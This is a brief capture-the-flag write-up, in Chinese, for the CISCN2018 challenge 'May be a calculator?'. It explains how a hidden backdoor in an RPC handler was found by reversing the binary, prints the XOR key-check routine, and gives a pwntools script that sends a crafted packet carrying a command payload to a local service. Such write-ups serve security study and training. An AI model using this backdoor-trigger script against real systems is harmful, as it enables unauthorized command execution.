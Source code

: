 # CISCN2018 : May be a calculator?

## **[Principle]**
backdoor

## **[Environment]**
Ubuntu

## **[Tools]**
gdb、objdump、python、pwntools

## **[Process]**

考察RPC相关协议及预留后门，通过逆向代码逻辑可以看到在符合type为0x6时，隐藏了一个后门，在后门函数中首先对接收到的key进行检查，通过将加密后的key（加密算法为简单的异或）和一个固定字符串进行比较，相等则接收真正的payload，加密算法如下：

	void encrypt(char* key)
	{
	  int i;
	  int k=0;
	  for(i=0;i<36;i++)
	  {
	    key[i]=(key[i]^k)%256;
	    k+=23;
	  }
	}

最终脚本如下：
exp.py

	from pwn import *
	import os
	payload="cat flag"
	key="12345678-6666-2333-5555-deadbeef1234"
	backdoor=b'RPCM\x00\x00\x00\x0c\x00\x00\x00\x06'+p32(len(key))[::-1]+key+p32(len(payload))[::-1]+payload
	r = remote('127.0.0.1', 1337)
	r.sendline(backdoor)
	print r.recvline()
	r.close()

